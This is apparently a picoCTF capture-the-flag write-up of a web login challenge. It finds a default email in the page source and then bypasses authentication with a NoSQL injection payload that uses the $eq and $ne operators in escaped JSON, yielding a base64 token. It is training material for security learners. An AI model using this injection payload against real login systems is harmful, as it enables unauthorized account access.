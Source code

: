
## Enumeration
![[Pasted image 20250305153951.png]]

In the source code, we found a default email address called `picoplayer355@picoctf.org`

We also see that the content MUST have a curly bracket wrapped
![[Pasted image 20250305154041.png]]


Therefore, we learn that the payload would look something like this

```JSON
{"email":"{_}","password":"{_}"}
```

However, we have to escape the JSON. Otherwise, we will have syntax error.

```JSON
{"email":"{\"key\":\"value\"}","password":"{\"key\":\"value\"}"}
```

## Exploitation
The payload would be:

```JSON
{"email":"{\"$eq\":\"picoplayer355@picoctf.org\"}","password":"{\"$ne\":\"whatever\"}"}
```
This means we are telling the database to look up an email that is equal to... and not equal whatever the password is.

We are in, and the reponse has a base64 token
![[Pasted image 20250305154439.png]]

Decoding the base64
![[Pasted image 20250305154514.png]]
